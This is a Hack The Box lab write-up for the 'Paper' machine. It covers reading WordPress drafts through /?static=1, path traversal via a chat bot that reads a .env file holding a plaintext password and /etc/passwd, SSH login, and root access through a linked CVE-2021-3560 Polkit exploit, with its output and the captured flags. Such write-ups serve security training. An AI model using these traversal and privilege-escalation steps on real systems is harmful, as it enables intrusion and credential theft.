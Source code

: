 ```yaml
---
title: "Paper from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Paper from HTB
`nmap`gave this
```bash
PORT      STATE    SERVICE   VERSION
22/tcp    open     ssh       OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
24/tcp    filtered priv-mail
80/tcp    open     http      Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
443/tcp   open     ssl/http  Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-title: HTTP Server Test Page powered by CentOS
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
| http-methods:
|_  Potentially risky methods: TRACE
```
Access the site and at the bottom we find that site runs on `wordpress`and with `wpscan`we find that `version is 5.2.3`
which is exploitable. you just need to add `/?static=1`which will show you all things without `logging in`.
I got this text
```
test

Micheal please remove the secret from drafts for gods sake!

Hello employees of Blunder Tiffin,

Due to the orders from higher officials, every employee who were added to this blog is removed and they are migrated to our new chat system.

So, I kindly request you all to take your discussions from the public blog to a more private chat system.

-Nick

# Warning for Michael

Michael, you have to stop putting secrets in the drafts. It is a huge security issue and you have to stop doing it. -Nick

Threat Level Midnight

A MOTION PICTURE SCREENPLAY,
WRITTEN AND DIRECTED BY
MICHAEL SCOTT

[INT:DAY]

Inside the FBI, Agent Michael Scarn sits with his feet up on his desk. His robotic butler Dwigt….

# Secret Registration URL of new Employee chat system

http://chat.office.paper/register/8qozr226AhkCHZdyY

# I am keeping this draft unpublished, as unpublished drafts cannot be accessed by outsiders. I am not that ignorant, Nick.

# Also, stop looking at my drafts. Jeez!
```
Here we see subdomain so lets add it to `/etc/hosts`
```
10.10.11.143 chat.office.paper
```
Access that subdomain. It is an `login page`, but with this link we can create new user
```
# Secret Registration URL of new Employee chat system

http://chat.office.paper/register/8qozr226AhkCHZdyY
```
Use that link and create new user. After logging in you will see `general chat`where is added `bot --- recyclops`you can't write in that channel so send direct message to him.
```
- recyclops help

-------------
-------------------
----------------------
- 3. Files:

- eg: 'recyclops get me the file test.txt', or 'recyclops could you send me the file sale/secret.xls' or just 'recyclops file test.txt'


- 4. List:

- You can ask me to list the files

- eg: 'recyclops i need directory list sale' or just 'recyclops list sale'
```
This is needed.
```
- list

- Fetching the directory listing of /sales/

- total 0
    drwxr-xr-x 4 dwight dwight 32 Jul 3 2021 .
    drwx------ 11 dwight dwight 281 Feb 6 2022 ..
    drwxr-xr-x 2 dwight dwight 27 Sep 15 2021 sale
    drwxr-xr-x 2 dwight dwight 27 Jul 3 2021 sale_2
```
Nothing is in this directories. `bot says that he can only list and read in that directory but doesn't say he can't read in other directory from there`
```bash
- list ..

    Fetching the directory listing of ..

- total 32
    drwx------ 11 dwight dwight 281 Feb 6 2022 .
    drwxr-xr-x. 3 root root 20 Jan 14 2022 ..
    lrwxrwxrwx 1 dwight dwight 9 Jul 3 2021 .bash_history -> /dev/null
    -rw-r--r-- 1 dwight dwight 18 May 10 2019 .bash_logout
    -rw-r--r-- 1 dwight dwight 141 May 10 2019 .bash_profile
    -rw-r--r-- 1 dwight dwight 358 Jul 3 2021 .bashrc
    -rwxr-xr-x 1 dwight dwight 1174 Sep 16 2021 bot_[restart.sh](http://restart.sh/)
    drwx------ 5 dwight dwight 56 Jul 3 2021 .config
    -rw------- 1 dwight dwight 16 Jul 3 2021 .esd_auth
    drwx------ 2 dwight dwight 44 Jul 3 2021 .gnupg
    drwx------ 8 dwight dwight 4096 Sep 16 2021 hubot
    -rw-rw-r-- 1 dwight dwight 18 Sep 16 2021 .hubot_history
    drwx------ 3 dwight dwight 19 Jul 3 2021 .local
    drwxr-xr-x 4 dwight dwight 39 Jul 3 2021 .mozilla
    drwxrwxr-x 5 dwight dwight 83 Jul 3 2021 .npm
    drwxr-xr-x 4 dwight dwight 32 Jul 3 2021 sales
    drwx------ 2 dwight dwight 6 Sep 16 2021 .ssh
    -r-------- 1 dwight dwight 33 Aug 18 09:00 user.txt
    drwxr-xr-x 2 dwight dwight 24 Sep 16 2021 .vim
```
there is an `hubot`which if we search stores `password`in `/hubot/.env` So let's read it.
```bash
file ../hubot/.env


- <!=====Contents of file ../hubot/.env=====>

- export ROCKETCHAT_URL='[http://127.0.0.1:48320](http://127.0.0.1:48320/)'
    export ROCKETCHAT_USER=recyclops
    export ROCKETCHAT_PASSWORD=Queenofblad3s!23
    export ROCKETCHAT_USESSL=false
    export RESPOND_TO_DM=true
    export RESPOND_TO_EDITED=true
    export PORT=8000
    export BIND_ADDRESS=127.0.0.1

- <!=====End of file ../hubot/.env=====>
```
We have the password. Now let's read `/etc/passwd`so we know which user has this password
```bash
file ../../../etc/passwd


rocketchat❌1001:1001::/home/rocketchat:/bin/bash
dwight❌1004:1004::/home/dwight:/bin/bash
```
After trying to log in as `rocketchat`i can't so its `dwight`we will use
>Username
>   dwight
> Password
>   Queenofblad3s!23

```bash
ssh dwight@10.10.11.143
password:
```
***
User Flag is: 8c4b2e8917b943aa84d10221fa78bd5f
***
Then download `linpeas.sh`on that machine and run it.
With that we learn that `sudo version --- 1.8.29`which is exploitable
https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/blob/main/poc.sh
This is the code we will use.
I set the
> Username
>   shavigio
> Password
>   shavigio

and ran this code many times until you get something like this:
```bash
[dwight@paper ~]$ ./polkit_privilege_escalation.sh

[!] Username set as : shavigio
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username shavigio...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username shavigio  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - shavigio
[!] When prompted for password, enter your password
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell
```
`Without any errors`
Then switch user like this
```bash
su - shavigio
password:

[shavigio@paper ~]$ sudo bash

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for shavigio:
[root@paper shavigio]#
```
***
Root Flag is: 5c684c62005aaba6f5d271c1b525f546
***
![](/assets/images/Screenshot from 2024-08-19 13-38-14.png)
